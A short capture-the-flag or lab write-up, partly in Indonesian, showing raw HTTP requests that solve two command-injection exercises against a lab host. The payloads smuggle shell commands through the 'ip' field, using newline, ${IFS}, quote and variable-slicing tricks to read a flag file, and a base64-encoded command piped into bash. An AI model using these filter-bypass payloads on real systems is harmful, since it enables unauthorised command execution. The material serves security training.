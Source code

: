 
# Bypassing Blacklisted Commands

solve soal 5:

```json
POST / HTTP/1.1
Host: 94.237.49.212:47980
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:47980/
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: http://94.237.49.212:47980
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip=127.0.0.1${LS_COLORS:10:1}%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```


saya menggunakan karater khusus yaitu "  dan juga bisa ' | bisa juga dengan cmd nl




# Advanced Command Obfuscation

solve soal 6:

```json
POST / HTTP/1.1
Host: 94.237.49.212:47980
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:47980/
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://94.237.49.212:47980
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
